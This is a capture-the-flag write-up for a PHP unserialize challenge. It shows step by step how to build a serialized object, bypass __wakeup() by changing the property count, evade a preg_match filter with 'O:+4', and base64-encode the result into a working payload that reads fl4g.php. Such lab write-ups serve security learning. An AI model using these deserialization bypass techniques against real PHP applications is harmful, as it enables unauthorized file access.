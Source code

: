 # Web_php_unserialize

![Screenshot from 2021-07-24 23-30-57](https://user-images.githubusercontent.com/87865134/126874978-4c16dc54-e4bb-4771-ae28-7d471f8ab6ff.png)

- **Hint:** flag in file fl4g.php
- **Workflow:**
  -  get value of `$_GET['var']`
  -  `base64_decode()`
  -  filter by `preg_match()`
  -  unserialize object

- **Payload need:**
  - `base64_encode()` 
  - bypass filter
  - bypass unserialize
  -
1. **Bypass unserialize**
  - Create object serialize:
  ```php
  $a = new Demo("fl4g.php");
  $ser = serialize($a);
  echo $ser;
  //result: O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";} 
  ```
  - Bypass `__wakeup()`:
  ```php
  $ser = str_replace(':1:', ':2:', $ser);
  //O:4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}
  ```
2. **Bypass filter `preg_match()`**
  ```php
  $ser = str_replace('O:4', 'O:+4', $ser);
  //O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}
  ```
3. **Endcode base64**  
  `echo base64_encode($ser)`

4. **Get payload:** `TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==` 
5. **Submit payload with URL query parameter**

![Screenshot from 2021-07-24 23-42-14](https://user-images.githubusercontent.com/87865134/126875292-0f129544-1c46-4fd4-824e-b0bb1975676f.png)

- **Description:**
  - > category: Unsecure Deserialization
